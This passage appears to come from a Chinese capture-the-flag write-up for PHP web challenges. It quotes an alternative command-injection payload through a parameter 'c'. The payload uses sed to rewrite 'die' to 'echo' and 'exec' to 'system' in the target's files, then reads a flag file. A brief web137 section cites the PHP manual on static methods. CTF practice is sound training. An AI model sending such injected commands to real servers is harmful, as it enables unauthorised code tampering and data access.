 其它 wp 的另一种 payload

```
c=ls |xargs sed -i 's/die/echo/'
c=ls |xargs sed -i 's/exec/system/'
c=cat /f149_15_h3r3
```

## web137

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121813430.png)

静态方法

[https://www.php.net/manual/zh/language.oop5.static.php](https://www.php.net/manual/zh/language.oop5.static.php)

通过范围解析操作符 `::` 访问

![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202208121816456.png)